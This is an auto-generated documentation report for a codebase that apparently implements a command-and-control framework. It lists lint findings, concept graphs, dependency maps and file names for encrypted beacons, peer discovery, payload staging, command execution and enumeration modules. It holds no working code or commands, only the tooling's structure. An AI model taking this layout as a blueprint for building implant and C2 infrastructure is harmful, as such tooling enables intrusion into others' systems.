| `include/beacon_common.c` | `get_local_ips` | 829 | `UNCHECKED_ALLOC` | `result` | Result of allocator stored in `result` is never checked against NULL. |
| `include/cJSON.c` | `print_array` | 1676 | `DEAD_STORE` | `output_pointer` | `output_pointer` assigned at line 1676 but never read afterwards. |
| `include/cJSON.c` | `print_object` | 1908 | `DEAD_STORE` | `output_pointer` | `output_pointer` assigned at line 1908 but never read afterwards. |
| `include/config.c` | `binary_dir` | 810 | `DEAD_STORE` | `slash` | `slash` assigned at line 810 but never read afterwards. |
| `legacy/beacon3.c` | `base64_encode` | 447 | `UNCHECKED_ALLOC` | `buf` | Result of allocator stored in `buf` is never checked against NULL. |
| `legacy/beacon3.c` | `aes256_cfb_encrypt` | 485 | `UNCHECKED_ALLOC` | `ciphertext` | Result of allocator stored in `ciphertext` is never checked against NULL. |
| `legacy/beacon3.c` | `aes256_cfb_decrypt` | 519 | `UNCHECKED_ALLOC` | `plaintext` | Result of allocator stored in `plaintext` is never checked against NULL. |
| `legacy/beacon3.c` | `get_local_ips` | 1099 | `UNCHECKED_ALLOC` | `result` | Result of allocator stored in `result` is never checked against NULL. |
| `legacy/beacon3.c` | `main` | 1373 | `UNCHECKED_ALLOC` | `full_enc` | Result of allocator stored in `full_enc` is never checked against NULL. |
| `legacy/beacon5.c` | `base64_encode` | 490 | `UNCHECKED_ALLOC` | `buf` | Result of allocator stored in `buf` is never checked against NULL. |
| `legacy/beacon5.c` | `aes256_cfb_encrypt` | 528 | `UNCHECKED_ALLOC` | `ciphertext` | Result of allocator stored in `ciphertext` is never checked against NULL. |
| `legacy/beacon5.c` | `aes256_cfb_decrypt` | 562 | `UNCHECKED_ALLOC` | `plaintext` | Result of allocator stored in `plaintext` is never checked against NULL. |
| `legacy/beacon5.c` | `get_local_ips` | 1142 | `UNCHECKED_ALLOC` | `result` | Result of allocator stored in `result` is never checked against NULL. |
| `legacy/beacon5.c` | `mesh_discovery_thread` | 1420 | `DEAD_STORE` | `ip_tok` | `ip_tok` assigned at line 1420 but never read afterwards. |
| `legacy/beacon5.c` | `main` | 1927 | `UNCHECKED_ALLOC` | `full_enc` | Result of allocator stored in `full_enc` is never checked against NULL. |
| `legacy/beacon6.c` | `base64_encode` | 517 | `UNCHECKED_ALLOC` | `buf` | Result of allocator stored in `buf` is never checked against NULL. |
| `legacy/beacon6.c` | `aes256_cfb_encrypt` | 555 | `UNCHECKED_ALLOC` | `ciphertext` | Result of allocator stored in `ciphertext` is never checked against NULL. |
| `legacy/beacon6.c` | `aes256_cfb_decrypt` | 589 | `UNCHECKED_ALLOC` | `plaintext` | Result of allocator stored in `plaintext` is never checked against NULL. |
| `legacy/beacon6.c` | `get_local_ips` | 1169 | `UNCHECKED_ALLOC` | `result` | Result of allocator stored in `result` is never checked against NULL. |
| `legacy/beacon6.c` | `main` | 1450 | `UNCHECKED_ALLOC` | `full_enc` | Result of allocator stored in `full_enc` is never checked against NULL. |
| `legacy/beacon_p2p.c` | `base64_encode` | 773 | `UNCHECKED_ALLOC` | `buf` | Result of allocator stored in `buf` is never checked against NULL. |
| `legacy/beacon_p2p.c` | `aes256_cfb_encrypt` | 807 | `UNCHECKED_ALLOC` | `ciphertext` | Result of allocator stored in `ciphertext` is never checked against NULL. |
| `legacy/beacon_p2p.c` | `aes256_cfb_decrypt` | 837 | `UNCHECKED_ALLOC` | `plaintext` | Result of allocator stored in `plaintext` is never checked against NULL. |
| `legacy/beacon_p2p.c` | `get_local_ips` | 907 | `UNCHECKED_ALLOC` | `result` | Result of allocator stored in `result` is never checked against NULL. |
| `legacy/beacon_p2p.c` | `peer_discovery_thread` | 994 | `UNCHECKED_ALLOC` | `udp_sock` | Result of allocator stored in `udp_sock` is never checked against NULL. |
| `legacy/beacon_p2p.c` | `peer_server_thread` | 1132 | `UNCHECKED_ALLOC` | `listen_fd` | Result of allocator stored in `listen_fd` is never checked against NULL. |
| `legacy/beacon_p2p.c` | `execute_generic_command` | 1258 | `UNCHECKED_ALLOC` | `err` | Result of allocator stored in `err` is never checked against NULL. |
| `legacy/beacon_p2p.c` | `main` | 1388 | `UNCHECKED_ALLOC` | `full_enc` | Result of allocator stored in `full_enc` is never checked against NULL. |
| `legacy/gopher_beacon.c` | `base64_encode` | 433 | `UNCHECKED_ALLOC` | `buf` | Result of allocator stored in `buf` is never checked against NULL. |
| `legacy/gopher_beacon.c` | `aes256_cfb_encrypt` | 471 | `UNCHECKED_ALLOC` | `ciphertext` | Result of allocator stored in `ciphertext` is never checked against NULL. |
| `legacy/gopher_beacon.c` | `aes256_cfb_decrypt` | 505 | `UNCHECKED_ALLOC` | `plaintext` | Result of allocator stored in `plaintext` is never checked against NULL. |
| `legacy/gopher_beacon.c` | `get_local_ips` | 1096 | `UNCHECKED_ALLOC` | `result` | Result of allocator stored in `result` is never checked against NULL. |
| `legacy/gopher_beacon.c` | `download_bof` | 1132 | `DEAD_STORE` | `tab` | `tab` assigned at line 1132 but never read afterwards. |
| `legacy/gopher_beacon.c` | `main` | 1378 | `UNCHECKED_ALLOC` | `full_enc` | Result of allocator stored in `full_enc` is never checked against NULL. |
| `legacy/v1_gopher_beacon.c` | `base64_encode` | 433 | `UNCHECKED_ALLOC` | `buf` | Result of allocator stored in `buf` is never checked against NULL. |
| `legacy/v1_gopher_beacon.c` | `aes256_cfb_encrypt` | 471 | `UNCHECKED_ALLOC` | `ciphertext` | Result of allocator stored in `ciphertext` is never checked against NULL. |

---

## Concept Graph

Semantic second-brain layer: nouns are concept nodes, verbs are edges. Each noun maps atomically to a file set (EXTRACTED); each verb aggregates structural imports, calls, and inherits into consumes, invokes, extends, depends_on, or bridges (INFERRED).

**50 concepts, 100 relations.**

| Concept | Files | Mentions |
|---------|-------|----------|
| `mutants` | 74 | 75 |
| `contract` | 68 | 76 |
| `generated` | 63 | 74 |
| `implementation` | 60 | 64 |
| `auto` | 59 | 59 |
| `beacon` | 56 | 328 |
| `bof` | 52 | 214 |
| `process` | 50 | 50 |
| `include` | 49 | 102 |
| `config` | 36 | 271 |
| `placeholder` | 31 | 31 |
| `not` | 30 | 86 |
| `bdd` | 29 | 46 |
| `output` | 28 | 152 |
| `run` | 27 | 64 |
| `key` | 26 | 165 |
| `api` | 26 | 64 |
| `derived` | 26 | 38 |
| `style` | 25 | 32 |
| `get` | 24 | 72 |
| `must` | 24 | 36 |
| `aes` | 23 | 125 |
| `fail` | 23 | 33 |
| `decrypt` | 22 | 45 |
| `encrypt` | 22 | 39 |
| `fails` | 22 | 30 |
| `server` | 21 | 98 |
| `build` | 21 | 66 |
| `command` | 21 | 62 |
| `error` | 21 | 46 |

### Verb Edges

| Source | Verb | Target | Strength | Evidence |
|--------|------|--------|----------|----------|
| `contract` | `depends_on` | `include` | 1.00 | 10 |
| `generated` | `depends_on` | `include` | 0.93 | 10 |
| `auto` | `depends_on` | `include` | 0.87 | 10 |
| `implementation` | `depends_on` | `include` | 0.87 | 10 |
| `contract` | `depends_on` | `process` | 0.80 | 10 |
| `process` | `depends_on` | `include` | 0.73 | 10 |
| `generated` | `depends_on` | `process` | 0.71 | 10 |
| `implementation` | `depends_on` | `process` | 0.71 | 10 |
| `auto` | `depends_on` | `process` | 0.67 | 10 |
| `mutants` | `depends_on` | `include` | 0.58 | 10 |
| `bof` | `depends_on` | `include` | 0.56 | 10 |
| `beacon` | `depends_on` | `include` | 0.49 | 10 |
| `bof` | `depends_on` | `bsb` | 0.49 | 10 |
| `config` | `depends_on` | `bsb` | 0.49 | 10 |
| `config` | `depends_on` | `returns` | 0.49 | 10 |
| `config` | `depends_on` | `key` | 0.47 | 10 |
| `beacon` | `depends_on` | `bsb` | 0.44 | 10 |
| `mutants` | `depends_on` | `process` | 0.44 | 10 |
| `beacon` | `depends_on` | `returns` | 0.42 | 10 |
| `contract` | `depends_on` | `beacon` | 0.42 | 10 |
| `beacon` | `depends_on` | `config` | 0.40 | 10 |
| `bytes` | `depends_on` | `include` | 0.40 | 10 |
| `must` | `depends_on` | `bsb` | 0.40 | 10 |
| `must` | `depends_on` | `config` | 0.40 | 10 |
| `must` | `depends_on` | `key` | 0.40 | 10 |
| `must` | `depends_on` | `returns` | 0.40 | 10 |
| `not` | `depends_on` | `bsb` | 0.40 | 10 |
| `not` | `depends_on` | `config` | 0.40 | 10 |
| `not` | `depends_on` | `key` | 0.40 | 10 |
| `not` | `depends_on` | `returns` | 0.40 | 10 |

### Dialectic Prompts

- Thesis: `aes` centralizes 23 files; Antithesis: `bytes` pulls 19 files with 10 shared (Jaccard 0.31); Synthesis: should they merge, split by layer, or keep `depends_on` explicit?
- Thesis: `aes` centralizes 23 files; Antithesis: `client` pulls 20 files with 11 shared (Jaccard 0.34); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `aes` centralizes 23 files; Antithesis: `decrypt` pulls 22 files with 19 shared (Jaccard 0.73); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `aes` centralizes 23 files; Antithesis: `encrypt` pulls 22 files with 18 shared (Jaccard 0.67); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `aes` centralizes 23 files; Antithesis: `get` pulls 24 files with 12 shared (Jaccard 0.34); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `aes` centralizes 23 files; Antithesis: `key` pulls 26 files with 13 shared (Jaccard 0.36); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `aes` centralizes 23 files; Antithesis: `returns` pulls 19 files with 10 shared (Jaccard 0.31); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `aes` centralizes 23 files; Antithesis: `run` pulls 27 files with 12 shared (Jaccard 0.32); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `aes` centralizes 23 files; Antithesis: `url` pulls 16 files with 9 shared (Jaccard 0.30); Synthesis: should they merge, split by layer, or keep `bridges` explicit?
- Thesis: `api` centralizes 26 files; Antithesis: `bof` pulls 52 files with 19 shared (Jaccard 0.32); Synthesis: should they merge, split by layer, or keep `bridges` explicit?

---

## Change Impact Analysis

Files sorted by how many other files would be affected if they changed. High-impact files should be changed with caution.

| File | Direct Dependents | Transitive Dependents | Total Impact |
|------|------------------|----------------------|--------------|
| `config_py.py` | 8 | 6 | 14 |
| `server.py` | 11 | 0 | 11 |
| `config.h` | 6 | 5 | 11 |
| `beacon_api.h` | 5 | 0 | 5 |
| `syscalls.h` | 5 | 0 | 5 |
| `beacon_common.h` | 5 | 0 | 5 |
| `aes.h` | 3 | 0 | 3 |
| `aes_cfb.h` | 3 | 0 | 3 |
| `__init__.py` | 2 | 0 | 2 |
| `async_i_o_for_beacon.h` | 2 | 0 | 2 |
| `beacon_common.c_extraction.h` | 2 | 0 | 2 |
| `beacon_heartbeat___health_endpoint.h` | 2 | 0 | 2 |
| `bof_api_versioning.h` | 2 | 0 | 2 |
| `bof_path_traversal_hardening.h` | 2 | 0 | 2 |
| `bof_streaming_(large_outputs).h` | 2 | 0 | 2 |

---

## Suggested Linting Rules

Automatically suggested linting and security rules based on patterns detected in the codebase. These can be exported as Semgrep rules using the `--export-rules` flag.

| Rule ID | Severity | Description | Language | Matches |
|---------|----------|-------------|----------|---------|
| `RM001` | info | Large number of functions in c: 635 total | c | 635 |
| `RM002` | info | Large number of functions in h: 106 total | h | 106 |
| `RM003` | info | Large number of functions in py: 359 total | py | 359 |
| `RM004` | info | Print statement found (consider logging instead) | python | 190 |
| `RM005` | info | Code marker comment found | multi | 40 |

---

## Orphans

Files with no documentation or low connectivity. These are candidates for documentation investment or cleanup.

- `beacon.c` (4 symbols, no doc)
- `beacon.c` (11 symbols, no doc)
- `beacon.c` (7 symbols, no doc)
- `bof.c` (1 symbols, no doc)
- `bof.c` (2 symbols, no doc)
- `bof.c` (2 symbols, no doc)
- `bof.c` (1 symbols, no doc)
- `__init__.py` (0 symbols, no doc)
- `gopher_c2.py` (5 symbols, no doc)
- `aes_cfb.h` (3 symbols, no doc)
- `async_i_o_for_beacon.h` (2 symbols, no doc)
- `beacon_common.c_extraction.h` (1 symbols, no doc)
- `beacon_heartbeat___health_endpoint.h` (2 symbols, no doc)
- `bof_api_versioning.h` (2 symbols, no doc)
- `bof_path_traversal_hardening.h` (2 symbols, no doc)
- `bof_streaming_(large_outputs).h` (2 symbols, no doc)
- `c2_rest_api.h` (2 symbols, no doc)
- `certificate_pinning___tofu.h` (2 symbols, no doc)
- `command_execution_via_execve.h` (2 symbols, no doc)
- `containerized_build_+_sbom.h` (1 symbols, no doc)
- *... and 33 more*

---

## Query Recipes

Example queries you can run against this knowledge base using the ranking engine:

```
# Find files most relevant to a concept
readmenator query "Where is the import resolver implemented?"

# Rank files by relevance to a topic
readmenator query "How does documentation generation work?"

# Explain why a file ranks highly
readmenator query "explain readmenator/_documentation.py"

# Trace dependency paths with ranked context
readmenator query "path from CLI to exporter"
```

The ranking model uses the following signals:

- **Personalized PageRank** (45% weight): query-specific relevance via seed propagation
- **Global Authority** (20% weight): structural importance via standard PageRank
- **Test Coverage** (15% weight): fraction of symbols referenced in test files
- **Doc Coverage** (10% weight): presence of docstrings and file-level docs
- **Freshness** (10% weight): recent modification activity

Results include score decomposition and justification paths for each ranked item.

---

## Structural Knowledge Map

> **Note:** The visual graph below has been intelligently pruned to the top 300 most relevant nodes to prevent rendering crashes. Full details of all files are documented in the Architecture Reference.

```mermaid
graph LR
    classDef mod fill:#1e1e1e,stroke:#ff6666,stroke-width:2px,color:#fff;
    classDef cls fill:#2d2d2d,stroke:#4ec9b0,stroke-width:2px,color:#fff;
    classDef fn fill:#333,stroke:#dcdcaa,stroke-width:1px,color:#dcdcaa;
    classDef ext fill:#111,stroke:#666,stroke-dasharray:5 5,color:#aaa;
    subgraph community_1 ["c2"]
    tests_test_hkdf_key_derivation_py["test_hkdf_key_derivation.py (py)"]
    class tests_test_hkdf_key_derivation_py mod;
    tests_test_hkdf_key_derivation_py_TestHKDFKeyDerivationConfig["TestHKDFKeyDerivationConfig"]
    class tests_test_hkdf_key_derivation_py_TestHKDFKeyDerivationConfig cls;
    tests_test_hkdf_key_derivation_py --> tests_test_hkdf_key_derivation_py_TestHKDFKeyDerivationConfig
    tests_test_hkdf_key_derivation_py_TestHKDFDerivation["TestHKDFDerivation"]
    class tests_test_hkdf_key_derivation_py_TestHKDFDerivation cls;
    tests_test_hkdf_key_derivation_py --> tests_test_hkdf_key_derivation_py_TestHKDFDerivation
    tests_test_hkdf_key_derivation_py_TestHKDFConfigIntegration["TestHKDFConfigIntegration"]
    class tests_test_hkdf_key_derivation_py_TestHKDFConfigIntegration cls;
    tests_test_hkdf_key_derivation_py --> tests_test_hkdf_key_derivation_py_TestHKDFConfigIntegration
    tests_test_hkdf_key_derivation_py_TestHKDFMutationResistance["TestHKDFMutationResistance"]
    class tests_test_hkdf_key_derivation_py_TestHKDFMutationResistance cls;
    tests_test_hkdf_key_derivation_py --> tests_test_hkdf_key_derivation_py_TestHKDFMutationResistance
    tests_test_hkdf_key_derivation_py_test_config_loads_master_key_hex["test_config_loads_master_key_hex"]
    class tests_test_hkdf_key_derivation_py_test_config_loads_master_key_hex fn;
    tests_test_hkdf_key_derivation_py --> tests_test_hkdf_key_derivation_py_test_config_loads_master_key_hex
    end
    subgraph community_0 ["legacy"]
    legacy_beacon5_c["beacon5.c (c)"]
    class legacy_beacon5_c mod;
    legacy_beacon_p2p_c["beacon_p2p.c (c)"]
    class legacy_beacon_p2p_c mod;
    legacy_beacon6_c["beacon6.c (c)"]
    class legacy_beacon6_c mod;
    include_beacon_common_c["beacon_common.c (c)"]
    class include_beacon_common_c mod;
    legacy_beacon3_c["beacon3.c (c)"]
    class legacy_beacon3_c mod;
    tests_test_certificate_pinning_py["test_certificate_pinning.py (py)"]
    class tests_test_certificate_pinning_py mod;
    legacy_gopher_beacon_c["gopher_beacon.c (c)"]
    class legacy_gopher_beacon_c mod;
    legacy_v1_gopher_beacon_c["v1_gopher_beacon.c (c)"]
    class legacy_v1_gopher_beacon_c mod;
    mutants_tests_test_c2_http_e2e_py["test_c2_http_e2e.py (py)"]
    class mutants_tests_test_c2_http_e2e_py mod;
    c2_server_py["server.py (py)"]
    class c2_server_py mod;
    tests_test_c2_http_e2e_py["test_c2_http_e2e.py (py)"]
    class tests_test_c2_http_e2e_py mod;
    tests_test_c2_beacon_bof_integration_py["test_c2_beacon_bof_integration.py (py)"]
    class tests_test_c2_beacon_bof_integration_py mod;
    tests_test_stage_py["test_stage.py (py)"]
    class tests_test_stage_py mod;
    tests_test_iv_generation_py["test_iv_generation.py (py)"]
    class tests_test_iv_generation_py mod;
    beacons_v2_beacon_c["beacon.c (c)"]
    class beacons_v2_beacon_c mod;
    tests_test_replay_protection_py["test_replay_protection.py (py)"]
    class tests_test_replay_protection_py mod;
    tests_test_bof_path_traversal_py["test_bof_path_traversal.py (py)"]
    class tests_test_bof_path_traversal_py mod;
    tests_test_crypto_py["test_crypto.py (py)"]
    class tests_test_crypto_py mod;
    tests_test_runtime_random_py["test_runtime_random.py (py)"]
    class tests_test_runtime_random_py mod;
    end
    subgraph community_4 ["include: config"]
    include_config_c["config.c (c)"]
    class include_config_c mod;
    tests_test_hkdf_key_derivation_c_c["test_hkdf_key_derivation_c.c (c)"]
    class tests_test_hkdf_key_derivation_c_c mod;
    tests_test_iv_generation_c_c["test_iv_generation_c.c (c)"]
    class tests_test_iv_generation_c_c mod;
    tests_test_certificate_pinning_c_c["test_certificate_pinning_c.c (c)"]
    class tests_test_certificate_pinning_c_c mod;
    cJSON_c["cJSON.c (c)"]
    class cJSON_c mod;
    include_cJSON_c["cJSON.c (c)"]
    class include_cJSON_c mod;
    mutants_tests_test_c2_server_py["test_c2_server.py (py)"]
    class mutants_tests_test_c2_server_py mod;
    beacons_v3_beacon_c["beacon.c (c)"]
    class beacons_v3_beacon_c mod;
    beacons_v1_beacon_c["beacon.c (c)"]
    class beacons_v1_beacon_c mod;
    end
    subgraph community_24 ["include: config_autogen"]
    include_config_autogen_c["config_autogen.c (c)"]
    class include_config_autogen_c mod;
    mutants_tests_test_certificate_pinning_py["test_certificate_pinning.py (py)"]
    class mutants_tests_test_certificate_pinning_py mod;
    mutants_tests_test_crypto_py["test_crypto.py (py)"]
    class mutants_tests_test_crypto_py mod;
    gopher_c2_py["gopher_c2.py (py)"]
    class gopher_c2_py mod;
    c2_stage_payload_py["stage_payload.py (py)"]
    class c2_stage_payload_py mod;
    tests_test_c2_server_py["test_c2_server.py (py)"]
    class tests_test_c2_server_py mod;
    mutants_tests_test_config_py["test_config.py (py)"]
    class mutants_tests_test_config_py mod;
    scripts_mutation_test_c_py["mutation_test_c.py (py)"]
    class scripts_mutation_test_c_py mod;
    tests_test_config_py["test_config.py (py)"]
    class tests_test_config_py mod;
    mutants_tests_test_install_deploy_py["test_install_deploy.py (py)"]
    class mutants_tests_test_install_deploy_py mod;
    end
    subgraph community_3 ["include: aes"]
    include_aes_cfb_c["aes_cfb.c (c)"]
    class include_aes_cfb_c mod;
    include_config_py_autogen_py["config_py_autogen.py (py)"]
    class include_config_py_autogen_py mod;
    contract_agent_py["contract_agent.py (py)"]
    class contract_agent_py mod;
    tests_test_execve_command_py["test_execve_command.py (py)"]
    class tests_test_execve_command_py mod;
    tests_test_install_deploy_py["test_install_deploy.py (py)"]
    class tests_test_install_deploy_py mod;
    mutants_tests_test_async_i_o_for_beacon_py["test_async_i_o_for_beacon.py (py)"]
    class mutants_tests_test_async_i_o_for_beacon_py mod;
    mutants_tests_test_beacon_heartbeat___health_endpoint_py["test_beacon_heartbeat___health_endpoint.py (py)"]
    class mutants_tests_test_beacon_heartbeat___health_endpoint_py mod;
    mutants_tests_test_bof_api_versioning_py["test_bof_api_versioning.py (py)"]
    class mutants_tests_test_bof_api_versioning_py mod;
    mutants_tests_test_bof_path_traversal_hardening_py["test_bof_path_traversal_hardening.py (py)"]
    class mutants_tests_test_bof_path_traversal_hardening_py mod;
    mutants_tests_test_bof_streaming__large_outputs__py["test_bof_streaming_(large_outputs).py (py)"]
    class mutants_tests_test_bof_streaming__large_outputs__py mod;
    mutants_tests_test_c2_rest_api_py["test_c2_rest_api.py (py)"]
    class mutants_tests_test_c2_rest_api_py mod;
    mutants_tests_test_certificate_pinning___tofu_py["test_certificate_pinning___tofu.py (py)"]
    class mutants_tests_test_certificate_pinning___tofu_py mod;
    mutants_tests_test_command_execution_via_execve_py["test_command_execution_via_execve.py (py)"]
    class mutants_tests_test_command_execution_via_execve_py mod;
    mutants_tests_test_hkdf_key_derivation_py["test_hkdf_key_derivation.py (py)"]
    class mutants_tests_test_hkdf_key_derivation_py mod;
    mutants_tests_test_iv_generation_with_entropy_verification_py["test_iv_generation_with_entropy_verification.py (py)"]
    class mutants_tests_test_iv_generation_with_entropy_verification_py mod;
    mutants_tests_test_mutation_testing_integration_py["test_mutation_testing_integration.py (py)"]
    class mutants_tests_test_mutation_testing_integration_py mod;
    mutants_tests_test_replay_protection_py["test_replay_protection.py (py)"]
    class mutants_tests_test_replay_protection_py mod;
    mutants_tests_test_socks5___http_proxy_support_py["test_socks5___http_proxy_support.py (py)"]
    class mutants_tests_test_socks5___http_proxy_support_py mod;
    mutants_tests_test_structured_jsonl_logging_py["test_structured_jsonl_logging.py (py)"]
    class mutants_tests_test_structured_jsonl_logging_py mod;
    mutants_tests_test_tls_client_certificate_authentication_py["test_tls_client_certificate_authentication.py (py)"]
    class mutants_tests_test_tls_client_certificate_authentication_py mod;
    mutants_tests_test_unified_config_schema_py["test_unified_config_schema.py (py)"]
    class mutants_tests_test_unified_config_schema_py mod;
    include_beacon_common_h["beacon_common.h (h)"]
    class include_beacon_common_h mod;
    mutants_tests_test_beacon_build_py["test_beacon_build.py (py)"]
    class mutants_tests_test_beacon_build_py mod;
    mutants_tests_test_bof_compile_py["test_bof_compile.py (py)"]
    class mutants_tests_test_bof_compile_py mod;
    include_config_py_py["config_py.py (py)"]
    class include_config_py_py mod;
    mutants_tests_crypto_harness_c["crypto_harness.c (c)"]
    class mutants_tests_crypto_harness_c mod;
    mutants_tests_test_async_i_o_for_beacon_c_c["test_async_i_o_for_beacon_c.c (c)"]
    class mutants_tests_test_async_i_o_for_beacon_c_c mod;
    mutants_tests_test_beacon_heartbeat___health_endpoint_c_c["test_beacon_heartbeat___health_endpoint_c.c (c)"]
    class mutants_tests_test_beacon_heartbeat___health_endpoint_c_c mod;
    mutants_tests_test_bof_api_versioning_c_c["test_bof_api_versioning_c.c (c)"]
    class mutants_tests_test_bof_api_versioning_c_c mod;
    mutants_tests_test_bof_path_traversal_hardening_c_c["test_bof_path_traversal_hardening_c.c (c)"]
    class mutants_tests_test_bof_path_traversal_hardening_c_c mod;
    mutants_tests_test_bof_streaming__large_outputs__c_c["test_bof_streaming_(large_outputs)_c.c (c)"]
    class mutants_tests_test_bof_streaming__large_outputs__c_c mod;
    mutants_tests_test_c2_rest_api_c_c["test_c2_rest_api_c.c (c)"]
    class mutants_tests_test_c2_rest_api_c_c mod;
    mutants_tests_test_certificate_pinning___tofu_c_c["test_certificate_pinning___tofu_c.c (c)"]
    class mutants_tests_test_certificate_pinning___tofu_c_c mod;
    mutants_tests_test_command_execution_via_execve_c_c["test_command_execution_via_execve_c.c (c)"]
    class mutants_tests_test_command_execution_via_execve_c_c mod;
    mutants_tests_test_hkdf_key_derivation_c_c["test_hkdf_key_derivation_c.c (c)"]
    class mutants_tests_test_hkdf_key_derivation_c_c mod;
    mutants_tests_test_iv_generation_with_entropy_verification_c_c["test_iv_generation_with_entropy_verification_c.c (c)"]
    class mutants_tests_test_iv_generation_with_entropy_verification_c_c mod;
    mutants_tests_test_mutation_testing_integration_c_c["test_mutation_testing_integration_c.c (c)"]
    class mutants_tests_test_mutation_testing_integration_c_c mod;
    mutants_tests_test_replay_protection_c_c["test_replay_protection_c.c (c)"]
    class mutants_tests_test_replay_protection_c_c mod;
    mutants_tests_test_socks5___http_proxy_support_c_c["test_socks5___http_proxy_support_c.c (c)"]
    class mutants_tests_test_socks5___http_proxy_support_c_c mod;
    mutants_tests_test_structured_jsonl_logging_c_c["test_structured_jsonl_logging_c.c (c)"]
    class mutants_tests_test_structured_jsonl_logging_c_c mod;
    mutants_tests_test_tls_client_certificate_authentication_c_c["test_tls_client_certificate_authentication_c.c (c)"]
    class mutants_tests_test_tls_client_certificate_authentication_c_c mod;
    mutants_tests_test_unified_config_schema_c_c["test_unified_config_schema_c.c (c)"]
    class mutants_tests_test_unified_config_schema_c_c mod;
    tests_crypto_harness_c["crypto_harness.c (c)"]
    class tests_crypto_harness_c mod;
    mutants_tests_config_harness_c["config_harness.c (c)"]
    class mutants_tests_config_harness_c mod;
    mutants_tests_test_beacon_common_c_extraction_c_c["test_beacon_common.c_extraction_c.c (c)"]
    class mutants_tests_test_beacon_common_c_extraction_c_c mod;
    mutants_tests_test_containerized_build___sbom_c_c["test_containerized_build_+_sbom_c.c (c)"]
    class mutants_tests_test_containerized_build___sbom_c_c mod;
    mutants_tests_test_pre_commit___ci_hardening_c_c["test_pre-commit_+_ci_hardening_c.c (c)"]
    class mutants_tests_test_pre_commit___ci_hardening_c_c mod;
    tests_config_harness_c["config_harness.c (c)"]
    class tests_config_harness_c mod;
    end
    subgraph community_2 ["bof/include"]
    bof_suid_enum_bof_c["bof.c (c)"]
    class bof_suid_enum_bof_c mod;
    tests_test_beacon_build_py["test_beacon_build.py (py)"]
    class tests_test_beacon_build_py mod;
    config_generate_parsers_py["generate_parsers.py (py)"]
    class config_generate_parsers_py mod;
    tests_test_bof_compile_py["test_bof_compile.py (py)"]
    class tests_test_bof_compile_py mod;
    bof_is_sudo_bof_c["bof.c (c)"]
    class bof_is_sudo_bof_c mod;
    bof_userenum_bof_c["bof.c (c)"]
    class bof_userenum_bof_c mod;
    bof_cat_bof_c["bof.c (c)"]
    class bof_cat_bof_c mod;
    bof_whoami_bof_c["bof.c (c)"]
    class bof_whoami_bof_c mod;
    aes_c["aes.c (c)"]
    class aes_c mod;
    include_aes_c["aes.c (c)"]
    class include_aes_c mod;
    bof_include_beacon_api_h["beacon_api.h (h)"]
    class bof_include_beacon_api_h mod;
    end
    subgraph community_5 ["mutants/src: async_i_o_for_beacon"]
    mutants_src_async_i_o_for_beacon_c["async_i_o_for_beacon.c (c)"]
    class mutants_src_async_i_o_for_beacon_c mod;
    end
    subgraph community_7 ["mutants/src: beacon_heartbeat___health_endpoint"]
    mutants_src_beacon_heartbeat___health_endpoint_c["beacon_heartbeat___health_endpoint.c (c)"]
    class mutants_src_beacon_heartbeat___health_endpoint_c mod;
    end
    subgraph community_8 ["mutants/src: bof_api_versioning"]
    mutants_src_bof_api_versioning_c["bof_api_versioning.c (c)"]
    class mutants_src_bof_api_versioning_c mod;
    end
    subgraph community_9 ["mutants/src: bof_path_traversal_hardening"]
    mutants_src_bof_path_traversal_hardening_c["bof_path_traversal_hardening.c (c)"]
    class mutants_src_bof_path_traversal_hardening_c mod;
    end
    subgraph community_10 ["mutants/src: bof_streaming_(large_outputs)"]
    mutants_src_bof_streaming__large_outputs__c["bof_streaming_(large_outputs).c (c)"]
    class mutants_src_bof_streaming__large_outputs__c mod;
    end
    subgraph community_11 ["mutants/src: c2_rest_api"]
    mutants_src_c2_rest_api_c["c2_rest_api.c (c)"]
    class mutants_src_c2_rest_api_c mod;
    end
    subgraph community_12 ["mutants/src: certificate_pinning___tofu"]
    mutants_src_certificate_pinning___tofu_c["certificate_pinning___tofu.c (c)"]
    class mutants_src_certificate_pinning___tofu_c mod;
    end
    subgraph community_13 ["mutants/src: command_execution_via_execve"]
    mutants_src_command_execution_via_execve_c["command_execution_via_execve.c (c)"]
    class mutants_src_command_execution_via_execve_c mod;
    end
    subgraph community_15 ["mutants/src: hkdf_key_derivation"]
    mutants_src_hkdf_key_derivation_c["hkdf_key_derivation.c (c)"]
    class mutants_src_hkdf_key_derivation_c mod;
    end
    subgraph community_16 ["mutants/src: iv_generation_with_entropy_verification"]
    mutants_src_iv_generation_with_entropy_verification_c["iv_generation_with_entropy_verification.c (c)"]
    class mutants_src_iv_generation_with_entropy_verification_c mod;
    end
    subgraph community_17 ["mutants/src: mutation_testing_integration"]
    mutants_src_mutation_testing_integration_c["mutation_testing_integration.c (c)"]
    class mutants_src_mutation_testing_integration_c mod;
    end
    subgraph community_19 ["mutants/src: replay_protection"]
    mutants_src_replay_protection_c["replay_protection.c (c)"]
    class mutants_src_replay_protection_c mod;
    end
    subgraph community_20 ["mutants/src: socks5___http_proxy_support"]
    mutants_src_socks5___http_proxy_support_c["socks5___http_proxy_support.c (c)"]
    class mutants_src_socks5___http_proxy_support_c mod;
    end
    subgraph community_21 ["mutants/src: structured_jsonl_logging"]
    mutants_src_structured_jsonl_logging_c["structured_jsonl_logging.c (c)"]
    class mutants_src_structured_jsonl_logging_c mod;
    end
    subgraph community_22 ["mutants/src: tls_client_certificate_authentication"]
    mutants_src_tls_client_certificate_authentication_c["tls_client_certificate_authentication.c (c)"]
    class mutants_src_tls_client_certificate_authentication_c mod;
    end
    subgraph community_23 ["mutants/src: unified_config_schema"]
    mutants_src_unified_config_schema_c["unified_config_schema.c (c)"]
    class mutants_src_unified_config_schema_c mod;
    src_async_i_o_for_beacon_c["async_i_o_for_beacon.c (c)"]
    class src_async_i_o_for_beacon_c mod;
    src_beacon_heartbeat___health_endpoint_c["beacon_heartbeat___health_endpoint.c (c)"]
    class src_beacon_heartbeat___health_endpoint_c mod;
    src_bof_api_versioning_c["bof_api_versioning.c (c)"]
    class src_bof_api_versioning_c mod;
    src_bof_path_traversal_hardening_c["bof_path_traversal_hardening.c (c)"]
    class src_bof_path_traversal_hardening_c mod;
